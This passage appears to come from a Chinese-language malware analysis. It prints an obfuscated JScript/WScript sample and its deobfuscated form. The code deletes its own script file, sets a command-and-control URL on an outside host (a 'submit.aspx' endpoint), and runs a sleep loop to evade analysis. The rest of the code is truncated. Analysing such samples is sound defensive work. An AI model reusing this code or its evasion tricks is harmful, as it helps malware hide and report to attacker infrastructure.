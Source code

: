 ```
var zuqyljaah = ("u", "T", "k", "h") + ["t", "G", "H", "M", "X", "n"][(-130 + 130)] + ["t", "E", "r", "T"][(-854 + 854)] + "p" + ":" + "/" + "/" + ["6", "B"][(-689 + 689)] + "0" + ("s", "M", "a", "e") + "a" + ["s", "t", "H", "y", "p", "0", "b"][(395 - 390)] + ["d", "2", "P", "m"][(-362 + 363)] + ["H", "c", "W", "6", "w"][(874 - 871)] + ("X", "s", "0") + "." + "a" + ("Y", "U", "Y", "J", "s", "u") + "t" + ("v", "E", "k", "t", "G", "h") + "." + ["G", "H", "c", "q"][(-698 + 700)] + ("t", "U", "X", "o") + ("u", "p", "d") + "i" + "n" + ["g", "u", "Y"][(-279 + 279)] + ("L", "D", "e", "t", "b") + ("L", "T", "i") + "t" + "." + "c" + "o" + "." + ("u", "R", "u", "i") + "n" + "/" + ["P", "v", "x", "s", "r", "c", "r"][(-350 + 353)] + ("j", "G", "u") + ["j", "R", "b", "q"][(312 - 310)] + ("N", "l", "k", "N", "R", "m") + ("I", "K", "i") + ("W", "o", "j", "e", "t") + "." + "a" + ["E", "z", "k", "f", "s", "U"][(-412 + 416)] + ["m", "j", "v", "p", "g"][(-354 + 357)] + ("o", "s", "w", "x");
var tid = ["5", "O"][(-765 + 765)] + ("R", "m", "l", "f", "z", "0") + ("L", "C", "g", "g", "0");
var r8h = ["S", "g", "a", "L", "r"][(202 - 200)] + "a" + ("c", "H", "L", "m", "d") + "2" + "8" + ("q", "y", "O", "0") + ("y", "Y", "a", "o", "a") + ("x", "B", "p", "p", "9");
var gudel6 = [];
gudel6[("A", "F", "p") + "u" + "s" + ["A", "u", "h", "m"][(584 - 582)]](["k", "a", "h"][(-497 + 498)]);
gudel6[["d", "p", "E", "i"][(37 - 36)] + "u" + ["s", "h", "K"][(935 - 935)] + ("t", "O", "h")](tid);
var kbiag = womzyjeptfu();
var jybspikivsu = kbiag + (224 - (-9776));
while (kbiag &lt; jybspikivsu) `{`
    kbiag = womzyjeptfu();
    this[("T", "a", "w", "V", "W") + ["h", "S", "G", "I", "z"][(-666 + 667)] + ("x", "C", "u", "q", "c") + ["r", "Y"][(-326 + 326)] + ["S", "t", "i", "g", "f", "Y"][(-190 + 192)] + ("b", "q", "p") + "t"]["S" + "l" + ("u", "C", "e") + "e" + ["p", "U", "s", "E", "R"][(-375 + 375)]]((464 - (-536)));
`}`
//More code is omitted due to brevity
```

在使用自动化脚本处理完所有混淆之后，我们可以看到恶意代码一目了然，如下所示。

```
try `{`
    var rhepu = getAXO("Scripting.FileSystemObject");
    rhepu["DeleteFile"](this["WScript"][
        "ScriptFullName"
    ], true);
`}` catch (e) `{``}`
var zuqyljaah = "http://60ea0260.auth.codingbit.co.in/submit.aspx";
var tid = "500";
var r8h = "aad280a9";
var gudel6 = [];
gudel6["push"]("a");
gudel6["push"](tid);
var kbiag = womzyjeptfu();
var jybspikivsu = kbiag + (10000);
while (kbiag &lt; jybspikivsu) `{`
    kbiag = womzyjeptfu();
    this["WScript"]["Sleep"]((1000));
`}`
//More code is omitted due to brevity
```
